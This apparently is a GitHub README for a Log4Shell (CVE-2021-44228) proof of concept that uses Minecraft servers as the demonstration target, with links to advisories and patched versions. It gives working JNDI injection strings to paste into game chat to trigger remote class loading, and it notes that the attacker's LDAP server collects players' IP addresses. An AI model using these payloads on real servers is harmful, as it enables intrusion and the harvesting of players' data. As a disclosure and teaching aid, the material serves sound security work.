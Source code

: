 # Log4J-RCE-Proof-Of-Concept (CVE-2021-44228)

This is a proof of concept of the log4j rce.

Here are some links for the CVE-2021-44228:
- https://www.lunasec.io/docs/blog/log4j-zero-day
- https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
- https://github.com/apache/logging-log4j2/pull/608
- https://www.youtube.com/watch?v=JPGola6BamU

This bug affects nearly all log4j2 and maybe log4j1 versions. The recommended version to use is **[2.15.0](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0)** which fixes the exploit.

## Demonstration with minecraft (which uses log4j2)

- Details for the impact on minecraft are listed here: https://twitter.com/slicedlime/status/1469150993527017483
- Article from minecraft is here: https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition
- Fixed minecraft forge versions: https://twitter.com/gigaherz/status/1469331288368861195
- Detailed article from minecraft forge: https://gist.github.com/TheCurle/f15a6b63ceee3be58bff5e7a97c3a4e6
- Fixed minecraft fabric versions: https://twitter.com/slicedlime/status/1469192689904193537
- Fixed minecraft paper versions: https://twitter.com/aurora_smiles_/status/1469205803232026625
- Fixed minecraft spigot versions: https://www.spigotmc.org/threads/spigot-security-releases-%E2%80%94-1-8-8%E2%80%931-18.537204/
- Fixed minecraft sponge versions: https://discord.com/channels/142425412096491520/303772747907989504/918744598065586196

### Lag or sending serialized data 

- Paste ``${jndi:ldap://127.0.0.1/e}`` in the chat. If there is an open socket on port ``389`` logj4 tries to connect and blocks further communiction until a timeout occurs.
- When using this proof of concept exploit, the log in the console will log ``THIS IS SEND TO THE LOG!!! LOG4J EXPLOIT!`` which is a serialized string object from the ldap server.

![image](https://user-images.githubusercontent.com/7681220/145529175-b6f88cf0-67d0-450b-a834-87942202d594.png)

- Additionally the malicious ldap server receives every ip address where the message is logged. This means that ip adresses of players on a server can be collected which this exploit.

### RCE

- Paste ``${jndi:ldap://127.0.0.1/exe}`` in the chat. If ``-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`` is set to true the remote code execution will happen.

![image](https://user-images.githubusercontent.com/7681220/145529797-a3952c3e-c81e-4e91-b383-490688736f9c.png)

- Fortunately modern jdks disable remote class loading by default. (https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)
- Old versions may still allow this!!

## Disclaimer

This project is only for educational purposes.


 
